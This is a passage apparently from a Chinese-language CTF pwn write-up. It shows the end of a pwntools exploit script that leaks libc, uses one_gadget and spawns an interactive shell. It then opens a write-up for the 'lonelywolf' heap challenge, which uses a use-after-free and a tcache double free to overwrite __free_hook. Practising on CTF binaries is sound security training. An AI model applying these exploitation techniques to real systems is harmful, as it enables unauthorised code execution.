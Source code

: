 ```python
p.send(str(0x100))
read0(p64(0xfffffffffffffff8))
p.recvuntil("Result: ")
value = u64(p.recvline()[:-1]) # random = \x00
if value == "0" or value == '':
    return EOFError
libc.address = int(value,16) - libc.sym['_IO_2_1_stdout_']
global_ = libc.address + 0x61bf68
og = libc.address + one[0]

read0(p64(0xfffffffffffffff5))
p.recvuntil("Result: ")
bss = int(p.recvline()[:-1],16) + 0x58

payload_index = p64((global_ - bss)/8)
p.send(og)
p.sendlineafter("choice: ",str(3))
p.interactive()
```



### lonelywolf:

[题目](https://pan.baidu.com/s/18s_TaOHke2TB4LzVZ-QWNA) [libc](https://pan.baidu.com/s/18s_TaOHke2TB4LzVZ-QWNA) 提取码：GAME

checksec

> ```properties
>     Arch:     amd64-64-little
>     RELRO:    Full RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      PIE enabled
>     FORTIFY:  Enabled
> ```

#### 思路：

```c
  __isoc99_scanf(&unk_F44, &size);
  if ( !size )
  {
    __printf_chk(1LL, "Size: ");
    __isoc99_scanf(&unk_F44, &size);
    v1 = size;
    if ( size > 0x78 )
```

index输入了个寂寞 所以只是对上一个申请的chunk的操作（瞬间想了之前VN的ff）

但是存在UAF 而且虽然本程序只允许申请0x80以下chunk，但程序使用了scanf依然可以构造堆块合并

所以思路就是edit覆盖tcache的key，来构造double free改free_hook为one即可
